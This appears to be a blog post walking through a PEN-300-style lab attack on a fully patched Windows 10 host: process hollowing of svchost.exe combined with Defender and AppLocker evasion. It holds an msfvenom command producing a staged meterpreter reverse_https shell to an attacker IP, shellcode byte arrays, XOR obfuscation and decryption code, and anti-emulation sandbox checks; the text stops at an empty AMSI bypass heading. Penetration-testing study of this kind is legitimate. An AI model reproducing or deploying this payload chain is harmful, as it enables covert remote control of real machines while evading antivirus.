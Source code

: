 ```yaml
---
title: Process Injection with Defender e AppLocker bypass
# subtitle: "Blog post subtitle :zap:"
summary: The OffSec PEN-300 course teaches staged shellcode injection in Windows binaries, advanced AV evasion, and AppLocker bypass techniques, but does not combine these with process hollowing methods in one single attack vector.
date: 2024-12-08
cardimage: photo1_card.jpeg
featureimage: photo1.jpeg
caption: 
# authors:
#   - Christian: author.jpeg
---
```


## Objective

During the study of PEN-300 by OffSec, one of the best techniques taught is the injection of staged shellcode into Windows binaries like **svchost.exe**. The course also covers advanced AV evasion techniques and AppLocker restriction bypass. Unfortunately, there is no chapter that combines process hollowing with these bypass methods, so in this article, I want to show the implementation.

## The setup

The target machine will be an Windows 10 Enteprise fully updated, at the time I am writing, **22H2** version with these Hotfix:

```cmd
systeminfo

Hotfix(s):                 8 Hotfix(s) Installed.
                           [01]: KB5048161
                           [02]: KB5045936
                           [03]: KB5011048
                           [04]: KB5015684
                           [05]: KB5046613
                           [06]: KB5014032
                           [07]: KB5016705
                           [08]: KB5046823
```

This machine have an Local, non admin account, named **Student** that will simulate out target user.

On top of that tha machine have windows defender fully turn On

{{< figArray subfolder="defender" figCaption="MD settings" >}}

And AppLocker with default rules

{{< figArray subfolder="applocker" figCaption="AppLocker settings" >}}

That prevent the execution of scripts and binary outside default locations of non admin account

```powershell
PS C:\Users\student> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

PS C:\Users\student> copy C:\Windows\System32\calc.exe C:\Users\student\Desktop\;
C:\Users\student\Desktop\calc.exe

Program 'calc.exe' failed to run This program is blocked by group policy. 
For more information, contact your system administrator
```

# The strategy

The idea is to create an managed .dll that inject a staged meterpreter shellcode in the native  [svchost.exe](https://learn.microsoft.com/en-us/windows/application-management/svchost-service-refactoring) process, this process was choice because is normally perform network activities so that our reverse shell should be less easly detected.

Because we hava also defender in place we have to craft our payload in an encrypted and objuscated way, implement some of AV heuristic bypass and diasable AMSI at run time.

Because also there is AppLocker in place our user can't invoke .NEt framework script so we have to implemente a bypass to be able to change the **$ExecutionContext.SessionState.LanguageMode** to **FullLanguage** and be able to execute scripts.

## The encrypted shell code

First of all we generate the staget shell code. I choose the https one so the comunication is encrypted:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https \ 
LHOST=192.168.191.226 LPORT=443 -f csharp


byte[] buf = new byte[593] { 0xbb,0x3b,0xe5,0x6f,0x90,0xd9,  
0xcc,0xd9,0x74,0x24,0xf4,0x5e,0x33,0xc9,0xb1,0xba,0x31,0x5e,
0x12,0x03,0x5e,0x12,0x83,0xd5,0x19,0x8d,0x65,0x96,0x65,0x4e,
0x33,0xfd,0xb3,0xa5,0xe2,0x89,0x67,0xce,0x4e,0x42,0xa1,0x9f,
0xc2,0x95,0x4a,0xf3,0x27,0xae,0xbf,0x70,0xe4,0xd3,0x3e,0x36,
0x25,0x9c,0xf8,0x0e,0x45,0x83,0xdf,0x16,0x3c,0xda,0x0e,...}
```

now, because the shell code we be in the malicious .dll, to avoid any problem with static signature detection by Defender we have to encyprt the payload. I choose to do it with a xor key a loop over all bytes.

Below the implementation in c#:

We declare the key, the uncrypted shell code

```csharp

// the key
byte key = 0x2a;
// the shell code
byte[] buf = new byte[593] {0xdb,0xdb,0xd9,0x74,0x24,0xf4,...}; 
byte[] encoded = new byte[buf.Length];

```

now we simply loop over it

```csharp
for (int i = 0; i < buf.Length; i++)
{
    encoded[i] = (byte)(buf[i] ^ key);
}
```

and get the new shell code encrypted

```cmd
C:\Tools\xor_encrypt.exe

XOR encryption with key 0x2a
byte[] buf = new byte[827] {
0xf1, 0xf1, 0xf3, 0x5e, 0x0e, 0xde, 0x91, 0xf1, 0x97, 0x51, 0x0c, 0x74, 0x03,
0xe3, 0x9b, 0xe6, 0x1b, 0x74, 0x30, 0x29, 0x74, 0x30, 0xa9, 0xec, 0x2e,
0xc8, 0x04, 0x2f, 0xa3, 0x64, 0x3d, 0x5b, 0x9e, 0x75, 0x64, 0x20, ...}
```

## The process Hollowing code

Now that we have the encrypted shell code we craft the code to do the process hollowing, I will skip all the technical implementation that is standard. 

One thing to note is that we have to uncrypted our shell code at runtime, so we implement this:

```csharp
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(buf[i] ^ 0x2a); }
```

above that to avoid any heuristic detection, we can use a few technique. The first one is to call a rare Win32API. If the call to this function is not working, we are problaby running in an emulation enviroment by the Antivirus so we simply exit. I choose to use [FlsAlloc](https://learn.microsoft.com/en-us/windows/win32/api/fibersapi/nf-fibersapi-flsalloc):

```csharp
IntPtr x = FlsAlloc(IntPtr.Zero);
if ((uint)x == 0xFFFFFFFF) { return; }
```

The next techinques is to simply put a sleep function. Usually when Antivirus see the sleel they fast forward to the next instruction to evit any lantency to the final user. We can simply check if the time elapsed if equal of the time sleep. If not we return:

```csharp
DateTime t1 = DateTime.Now;
Sleep(2000);
double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
if (t2 < 1.5) { return; }
```

## Amsi Bypass


